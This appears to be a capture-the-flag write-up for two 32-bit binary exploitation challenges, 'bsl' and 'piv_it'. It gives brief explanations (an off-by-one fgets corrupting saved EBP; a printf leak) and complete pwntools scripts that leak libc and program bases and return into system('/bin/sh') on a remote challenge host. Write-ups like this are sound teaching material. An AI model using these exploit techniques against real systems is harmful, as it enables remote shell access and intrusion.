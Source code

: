 # bsl

Flag: FLAG{eyJhbGciOiJIUzI1NiJ9.eyJjaGFsIjoid2FyOC1ic2wiLCJpcCI6IjIwMi44Ny4xNjIuMjgiLCJzZXNzaW9uIjoiMDA2OWFiNTAtOTU4YS00ZWFjLTgyNDMtMDJkOTQ1MmYwNjQ5In0.pdZiMs7HAYfVZ6KNNLmlKujF-jiz4BRqRTZ1DNfQYPk}

## Scenario

The two `fgets` functions do not have a very large buffer space. And they won't overflow much.  
The `fgets` function in `least_fav` does seem to read in one too many bytes...

## Solution

By sending the maximum input size for the `least_fav::fgets` function, by nature of how `fgets` works, it writes an 0x00 into the last space.  
This space happens to be the LSB of the saved `ebp` value.  
When the function returns, the returning `fav` function now has a modified ebp at a lower address, which allows `most_fav::fgets` to become an opening for overflowing the stack frame for itself. This allows us to overwrite the EBP.

## Script

```python3
#!/usr/bin/python3

'''
Arch:     i386-32-little
RELRO:    Full RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      PIE enabled
'''

from pwn import *

# p = process("./bsl")
p = remote("plsdonthaq.me", 8001)

'''
:: most_fav
send - 0
fgets(arg1, 0x538, stdin) # Can't overwrite EBP in the current stack frame, but can in the parent frame!

:: least fav
LEAK: get_number
fgets(esp-0xd4, 0xd1, stdin) # Not enough!
'''

addr = dict()
offsets = dict(
    get_number = 0x713,
    puts=0x67b40,
    system=0x3d200,
    binsh=0x17e0cf,
    ret=0x4a6
)


p.sendlineafter("Will you be my friend? (y/n)", "y")
p.recvuntil("My current favourite is: ")
addr["libc_base"] = int(p.recvline(), 16) - offsets["puts"]
log.info(f"Got libc base leak :: {hex(addr['libc_base'])}")

# Fav number 1
p.sendline("y")
p.sendline("0")
p.sendline("")


# Least number
p.sendline("y")
p.recvuntil("Mine is: ")
addr["base"] = int(p.recvline(), 16) - offsets["get_number"]
log.info(f"Got base leak :: {hex(addr['base'])}")

p.sendline("0")
payload = b''
payload += b'.' * (0xd1-5)
ebx = addr["base"] + 0x2fb4 # Keep the value of ebx
payload += p32(ebx)
p.sendline(payload)
# Zero the LSB byte of ebp

# Spill fix, least fav
p.sendline("y")
p.sendline("0")
p.sendline("")

p.sendline("y")
p.sendline("0")

# Sometimes Santa doesn't give us our system(/bin/sh) present
# Probably needs some more RETs
payload = b'A'
payload += p32(addr["base"] + offsets["ret"]) * 0x120
payload += p32(addr["libc_base"] + offsets["system"])
payload += b'....'
payload += p32(addr["libc_base"] + offsets["binsh"])

p.sendline(payload)

''' 

fgets(ebp-0xd0, 0xd1)

|ebp+0x4|EIP
|ebp    | saved ebp
|ebp-0x4|ebx

'''

p.interactive()
```

# piv_it

Flag: FLAG{eyJhbGciOiJIUzI1NiJ9.eyJjaGFsIjoid2FyOC1waXZfaXQiLCJpcCI6IjIwMi44Ny4xNjIuMjgiLCJzZXNzaW9uIjoiZWQ4ZjY3MzgtZjY1NC00YjY2LTgzN2EtOWE5ZmI1OTJhNmI0In0.eu74bIYNIrKTXcZ8ACMZr8GfaSad-de1bmuJ7cLlbpA}

## Scenario

Possible stack pivot, given the small buffer space from the vulnerable `read` call.

## Solution

Jokes! :trivial:  

Using the printf leak, we can find the address of the libc base.  
We can then find the addresses of `system` and the `/bin/sh` string, and overwrite the return address to system.

## Script

```python3
#!/usr/bin/python3

'''
Arch:     i386-32-little
RELRO:    Full RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      PIE enabled
'''

from pwn import *

# p = process("./piv_it")
p = remote("plsdonthaq.me", 8002)

addr = dict()
offsets = dict(
    printf = 0x512d0,
    system = 0x3d200,
    main = 0x725,
    binsh = 0x17e0cf
)

# '''
# 1) read(0, &var_a8, 0x80)
# 2) read(0, &var_20, 0x38)
# '''

# Leak libc base
p.recvuntil("Unexpected Error Encountered At: ")
addr["libc_base"] = int(p.recvline(), 16) - offsets["printf"]
log.info(f"libc base leaked at {hex(addr['libc_base'])}")

# Send payload
p.sendlineafter("Manual Override Initiated\n\n$ ", "")

# Leak program base
p.recvuntil("Unexpected Error Encountered At: ")
addr["base"] = int(p.recvline(), 16) - offsets["main"]
log.info(f"Program base leaked at {hex(addr['base'])}")

# 0x38 
payload = b''
payload += b'\00' * 0x20
payload += p32(addr['libc_base'] + offsets["system"]) 
payload += b'....'
payload += p32(addr['libc_base'] + offsets["binsh"])
p.sendlineafter("Safe Mode Enabled\n\n$ ", payload)

p.recvuntil("Failed to execute command: ")
log.critical("PWN!")
p.interactive()
```
